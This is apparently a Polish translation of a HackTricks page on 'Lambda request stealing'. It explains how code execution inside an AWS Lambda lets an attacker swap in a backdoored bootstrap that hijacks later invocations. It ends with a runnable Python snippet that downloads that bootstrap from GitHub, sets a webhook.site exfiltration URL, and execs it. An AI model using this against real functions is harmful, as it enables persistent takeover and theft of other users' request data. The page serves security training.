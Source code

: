 # AWS - Kradzież Żądań Lambda

{{#include ../../../../banners/hacktricks-training.md}}

## Przepływ Lambda

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** to proces poza kontenerem, który **wysyła** **wywołania** do procesu **init**.
2. Proces init nasłuchuje na porcie **9001**, udostępniając kilka interesujących punktów końcowych:
- **`/2018-06-01/runtime/invocation/next`** – pobierz następne zdarzenie wywołania
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – zwróć odpowiedź handlera dla wywołania
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – zwróć błąd wykonania
3. **bootstrap.py** ma pętlę, która pobiera wywołania z procesu init i wywołuje kod użytkownika, aby je obsłużyć (**`/next`**).
4. Na koniec **bootstrap.py** wysyła do init **odpowiedź**

Zauważ, że bootstrap ładuje kod użytkownika jako moduł, więc wszelkie wykonania kodu realizowane przez kod użytkownika odbywają się w tym procesie.

## Kradzież Żądań Lambda

Celem tego ataku jest sprawienie, aby kod użytkownika wykonał złośliwy proces **`bootstrap.py`** wewnątrz procesu **`bootstrap.py`**, który obsługuje podatne żądanie. W ten sposób złośliwy proces **bootstrap** zacznie **rozmawiać z procesem init**, aby obsługiwać żądania, podczas gdy **legit** bootstrap jest **uwięziony**, uruchamiając złośliwy, więc nie będzie prosił o żądania do procesu init.

To proste zadanie do osiągnięcia, ponieważ kod użytkownika jest wykonywany przez legitny proces **`bootstrap.py`**. Tak więc atakujący mógłby:

- **Wysłać fałszywy wynik bieżącego wywołania do procesu init**, aby init myślał, że proces bootstrap czeka na więcej wywołań.
- Żądanie musi być wysłane do **`/${invoke-id}/response`**
- invoke-id można uzyskać ze stosu legitnego procesu **`bootstrap.py`** za pomocą modułu [**inspect**](https://docs.python.org/3/library/inspect.html) w Pythonie (jak [proponowano tutaj](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) lub po prostu ponownie żądając go do **`/2018-06-01/runtime/invocation/next`** (jak [proponowano tutaj](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Wykonać złośliwy **`boostrap.py`**, który obsłuży następne wywołania
- Dla celów stealth można wysłać parametry wywołań lambda do kontrolowanego przez atakującego C2, a następnie obsługiwać żądania jak zwykle.
- Do tego ataku wystarczy pobrać oryginalny kod **`bootstrap.py`** z systemu lub [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodać złośliwy kod i uruchomić go z bieżącego wywołania lambda.

### Kroki Ataku

1. Znaleźć **RCE** podatność.
2. Wygenerować **złośliwy** **bootstrap** (np. [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Wykonać** złośliwy bootstrap.

Możesz łatwo wykonać te działania, uruchamiając:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Dla uzyskania dodatkowych informacji sprawdź [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Odniesienia

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
